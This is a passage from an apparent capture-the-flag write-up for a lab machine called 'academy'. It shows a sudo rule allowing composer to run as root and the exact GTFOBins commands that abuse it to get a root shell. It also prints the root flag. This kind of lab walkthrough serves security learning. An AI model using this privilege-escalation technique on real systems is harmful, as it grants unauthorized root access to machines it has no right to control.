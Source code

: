     User mrb3n may run the following commands on academy:
        (ALL) /usr/bin/composer

Using [gtfobins](https://gtfobins.github.io/gtfobins/composer/) we quickly
obtain a root shell and the root flag.

    :::text
    mrb3n@academy:/home$ TF=$(mktemp -d)
    mrb3n@academy:/home$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
    mrb3n@academy:/home$ sudo composer --working-dir=$TF run-script x
    PHP Warning:  PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
    PHP Warning:  PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
    Do not run Composer as root/super user! See https://getcomposer.org/root for details
    > /bin/sh -i 0<&3 1>&3 2>&3
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # cat /root/root.txt
    c54ee4bf2a048550483176f6cb528d95

# Wrapping up

An easy machine mostly based on public exploit and enumeration. I will recommand
it to begginers.


